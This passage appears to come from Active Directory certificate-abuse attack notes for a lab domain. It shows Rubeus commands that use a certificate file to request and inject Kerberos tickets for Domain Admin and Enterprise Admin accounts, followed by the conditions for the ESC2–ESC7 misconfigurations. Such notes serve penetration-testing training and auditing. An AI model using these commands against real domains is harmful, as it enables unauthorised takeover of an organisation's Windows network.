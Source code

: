 ### 4. Request a TGT with the pfx
```powershell
# Rubeus
# Request DA TGT and inject it
Rubeus.exe asktgt /user:Administrator /certificate:cert.pfx /password:password /ptt

# Request EA TGT and inject it
Rubeus.exe asktgt /user:techcorp.local\Administrator /dc:techcorp-dc.techcorp.local /certificate:C:\AD\Tools\EA.pfx /password:SecretPass@123 /nowrap /ptt
```

<img src="./assets/11.png" />

### **ESC2**
1. General requirements
2. The Any Purpose EKU or No EKU

### **ESC3**
1. General requirements + no “enrollment agent restrictions”
2. The Certificate Request Agent EKU
3. Enrollment rights to template with a few other requirements

### **ESC4**
1. Vulnerable certificate template access control

### **ESC5**
1. Vulnerable PKI object access control

### **ESC6**
1. EDITF_ATTRIBUTESUBJECTALTNAME2 flag set on a CA
2. (Allows CSRs for ANY template to specify a SAN!)

### **ESC7**
1. Vulnerable CA access control
2. The ManageCA permission can be used to fixate ESC6
